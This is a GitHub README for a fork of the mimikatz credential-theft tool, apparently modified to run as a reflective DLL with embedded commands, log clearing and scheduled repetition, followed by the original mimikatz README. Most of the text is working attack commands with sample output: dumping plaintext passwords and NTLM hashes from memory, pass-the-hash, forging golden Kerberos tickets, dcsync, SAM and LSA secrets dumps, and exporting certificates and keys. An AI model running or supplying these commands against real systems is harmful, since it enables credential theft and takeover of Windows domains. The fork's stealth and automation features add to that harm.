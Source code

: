# mimikatz reflective mod

**`mimikatz`** with 'ReflectiveDLL' build target made by Yegor Bayev @kodx.
Microsoft Visual Studio 2013 required.

Modifications:

## standart

**log** - got new option `/clear`, to clear log file.
example:
`"log %TEMP%\mimikatz.log /clear"`
will clear log file on call. Using log file path is mandatory.

**waitfor** - wait until specified time of day in 24h format "hh MM", where is hh is hour and MM is minute, if this time has passed, wait for another day.
example:
`"waitfor 12 00"`
will wait for 12:00 of the current day.

**cycle** - repeat command list endlessly.
example:

`cycle "log %TEMP%\mimikatz.log /clear" version localtime "waitfor 12 00"`

will write output of commands `version` and `localtime` to `%TEMP%\mimikatz.log` with overwrite(clear contents on write) every day at 12:00 o'clock.

## Reflective DLL version

To write command list into dll use PowerShell script `posh_binstringbuilder.ps1` from `testbuild` directory.

`$SourceBinary` - path to source dll

`$OutputBinary` - path to output dll

`$TargetStr` - command list to execute on start



Next is original README.

---

# mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */


mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```

But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/gentilkiwi/mimikatz/wiki or on http://blog.gentilkiwi.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/gentilkiwi/mimikatz/releases

## Quick usage

```
log
privilege::debug
```

### sekurlsa

```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos

```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto

```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump

```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build

`mimikatz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:

- for `mimikatz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
- _for `mimikatz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`mimikatz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!

- GIT URL is  : https://github.com/gentilkiwi/mimikatz.git
- SVN URL is  : https://github.com/gentilkiwi/mimikatz/trunk
- ZIP file is : https://github.com/gentilkiwi/mimikatz/archive/master.zip

### Build the solution

- After opening the solution, `Build` / `Build Solution` (you can change architecture)
- `mimikatz` is now built and ready to be used! (`Win32` / `x64`)
  - you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `mimikatz` and `mimilib` are OK.

### ddk2003

With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:

- http://blog.gentilkiwi.com/programmation/executables-runtime-defaut-systeme
- _http://blog.gentilkiwi.com/cryptographie/api-systemfunction-windows#winheader_

## Licence

CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

## Author

- Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )
- DCSync function in `lsadump` module was co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!
